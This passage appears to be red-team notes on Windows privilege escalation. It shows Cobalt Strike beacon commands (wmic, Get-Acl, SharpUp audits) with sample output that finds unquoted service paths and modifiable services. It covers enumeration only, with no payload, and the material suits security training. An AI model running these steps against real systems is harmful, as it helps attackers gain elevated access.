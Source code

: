 1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Services\Service.exe`

### Enumerating Services - Cobalt Strike

#### wmic

```powershell
beacon> run wmic service get name, pathname

Name                    PathName
ALG                     C:\Windows\System32\alg.exe
AppVClient              C:\Windows\system32\AppVClient.exe
Sense                   "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"
[...snip...]
VulnService1            C:\Program Files\Vulnerable Services\Service 1.exe
```

#### Powershell

```powershell
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vulnerable Services
Owner  : BUILTIN\Administrators
Group  : DEV\Domain Users
Access : BUILTIN\Users Allow  CreateFiles, Synchronize
BUILTIN\Users Allow  ReadAndExecute, Synchronize
....
```

#### SharpUp - Unquoted Services

We can use [SharpUp](https://github.com/GhostPack/SharpUp) and Cobalt Strike execute-assembly to enumerate services .

```powershell
beacon> execute-assembly C:\Tools\SharpUp.exe audit UnquotedServicePath

=== SharpUp: Running Privilegrm e Escalation Checks ===

=== Services with Unquoted Paths ===
	Service 'VulnService1' (StartMode: Automatic) has executable 'C:\Program Files\Vulnerable Services\Service 1.exe', but 'C:\Program Files\Vulnerable Services\Service' is modifable.
```

#### SharpUp - Weak Service Permissions

```powershell
beacon> execute-assembly C:\Tools\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService' (State: Running, StartMode: Auto)
```
